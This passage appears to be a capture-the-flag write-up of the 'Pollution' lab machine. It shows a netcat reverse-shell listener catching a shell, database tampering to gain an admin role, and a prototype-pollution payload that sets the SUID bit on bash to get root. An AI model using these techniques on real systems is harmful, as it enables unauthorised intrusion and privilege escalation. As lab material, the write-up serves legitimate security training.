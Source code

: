 ```bash

nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.104.107] 51570
bash: cannot set terminal process group (959): Inappropriate ioctl for device
bash: no job control in this shell
victor@pollution:/var/www/developers$ 
```
---

## Privilege Escalation

- Found `pollution-api` directory in Vctor's home
- JWT Secret: `JWT_COLLECT_124_SECRET_KEY`
- `Message_send.js` looks interesting
- Updated the mysql database -> pollution_api db -> updated my user's role to "admin"
- Got a new token with `role:admin`
- Forwarded port 3000 to my kali machine
- wrote `callAPI.py` script to play with the API and see what can I get out of it
- API is vulnerable to prototype pollution
- Wrote `callAPI.py` python script to exploit it using the payload `chmod +s /bun/bash`

```bash
victor@pollution:~/pollution_api$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
victor@pollution:~/pollution_api$ bash -p
bash-5.1# whoami
root

```

---
